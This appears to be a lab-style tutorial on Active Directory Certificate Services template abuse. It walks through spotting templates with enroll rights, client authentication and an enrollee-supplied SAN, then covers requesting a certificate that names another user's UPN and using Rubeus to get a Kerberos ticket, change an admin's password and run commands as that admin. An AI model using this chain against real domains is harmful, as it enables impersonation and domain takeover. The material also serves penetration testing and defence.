 Active Directory Certificate Services (AD CS) is Microsoft's PKI solution integrated into Active Directory, used for encrypting files, verifying digital signatures, and user authentication. Unlike public CAs, AD CS can issue certificates internally, which can be used for internal applications without internet access.<br>
The diagram below shows what the flow for certificate requests and generation looks like:

![6abc4f005b619e77d22020817efcd569](https://github.com/user-attachments/assets/3ba2536a-e948-4c2f-8574-ba64bc653edd)<br>



Before we dive deeper into certificate abuse, some terminology:

> PKI - Public Key Infrastructure is a system that manages certificates and public key encryption<br>
> AD CS - Active Directory Certificate Services is Microsoft's PKI implementation which usually runs on domain controllers<br>
> CA - Certificate Authority is a PKI that issues certificates<br>
> Certificate Template - a collection of settings and policies that defines how and when a certificate may be issued by a CA<br>
> CSR - Certificate Signing Request is a message sent to a CA to request a signed certificate<br>
> EKU - Extended/Enhanced Key Usage are object identifiers that define how a generated certificate may be used<br>


**Certificate template enumeration:**

```
certutil -v -template > cert_templates.txt
```

the outpute of this file may be difficult to read but we are looking for some indicators will tell us that one of the templates is vulnerable. THere is 3 of them to generate a malicious certificate.

1) *Parameter 1: Relevant Permissions*

  We are essentially looking for a template where our user has either the ```Allow Enroll``` or ```Allow Full Control``` permission. You will probably never find a certificate where you have the Allow Full Control permission. However, if you do, congratulations! You can misconfigure the template yourself to make it vulnerable! But for now, let's focus on Allow Enroll.<br>
the *cert_templates.txt* contains the *Allow Enroll* permission setting to *Domain Users* 
  ```
 Allow Enroll	LUNAR\Domain Users
```
  
3) *Parameter 2: Client Authentication*
   To ensure a certificate is suitable for Kerberos authentication, check for the ```Client Authentication``` Extended Key Usage (EKU) in the certificate templates. This EKU allows the certificate to be used for client authentication.
   
5) *Parameter 3: Client Specifies SAN*
  ensure the certificate template allows you to specify the Subject Alternative Name (SAN). Look for the ```CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT``` property flag set to ```1```, indicating you can control the SAN. If a template meets all required conditions, including this SAN capability, you could escalate to Enterprise Admin rights with the right setup.<br>
**Impersonation via SAN:**
    > When a UPN is included in the SAN field of a certificate, it allows the certificate to be associated with a specific user account.<br>
    > If an attacker can obtain a certificate with the UPN of a target account in the SAN field, they can potentially impersonate that user.<br>
    > This certificate can be used in authentication protocols like Kerberos or mutual TLS, where the identity of the user is validated based on the certificate.<br>
   > The system will trust the certificate as if it was issued legitimately to the user, allowing the attacker to access resources and perform actions as if they were the target user.<br>

**UPN** ```Is the username used to log into a domain, formatted as username@domain.com```<br>

**Generating a malicious certificate**

Now that we identified a certificate template that we can exploit, it is time to generate the certificate request.<br>
Here’s the steps for requesting and exporting a certificate using MMC:
```
   1 Open MMC:
        Type mmc in a Run window and press Enter.

   2 Add Certificates Snap-in:
        Click File -> Add/Remove Snap-in...
        Select Certificates and click Add.

  3 Request a New Certificate:
        Expand Certificates -> Personal.
        Right-click on Personal, select All Tasks, then click Request New Certificate...

   4 Proceed with Request:
        Click Next twice to proceed with default CA settings.

   5 Provide Certificate Details:
        Click More information is required to enroll this certificate  (the vulnarable one).

   6 Configure Certificate Properties:
        Change Subject name Type to Common Name and provide the desired certificate name.
        Change Alternative name Type to User principal name (UPN) and provide the UPN of the account you wish to impersonate (e.g., svc.gitlab@lunar.eruca.com).

   7 Enroll the Certificate:
        Click OK to add properties.
        Complete the certificate enrollment.

   8 Export the Certificate:
        Right-click the certificate under Personal -> Certificates.
        Select All Tasks, then click Export...
        Follow the prompts to export, ensuring to export the private key as well.
        Choose PKCS #12 (.pfx) format and set a password for the private key.
        Save the certificate to a file.
```


**User impersonation through a certificate**
<br>

Now we can finally impersonate a user. To perform this, two steps are required:
   > Use the certificate to request a Kerberos ticket granting ticket (TGT).<br>
   > Load the Kerberos TGT into your hacking platform of choice(we will use Rubues).

We will use the following command to request the TGT:
```Rubeus.exe asktgt /user:<UserHavingAdminAccessToImpersonate> /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:<DomainName> /dc:<IP of domain controller>``` <br>

| Option | Description |
|---|---|
| /user | Specifies the user that we will impersonate and must match the UPN for the certificate we generated. |
| /dc | The IP of the domain controller where we are requesting the TGT from. Usually it's best to select a DC that has a CA service running. |

To know that the CA service running or not you can use this command ```certutil -ping <DomainControllerName>```<br>
![Screenshot from 2024-08-31 02-40-05](https://github.com/user-attachments/assets/792f230c-79ce-4917-8303-1fe6c8b61167)


NOw we have an administrative TGT, we can change password of an admin user to take over his account or do ```runas``` command.
```
Rubeus.exe changepw /ticket:<path to ticket file> /new:<new password for user> /dc:<MachineHaveCARunning> /targetuser:<DomainName>\<usernameWeChangeHisPassword>
```
Finally, we could use ```runas /user:<DominName>\<usernameWeChangedHisPassword> cmd.exe```
   
    
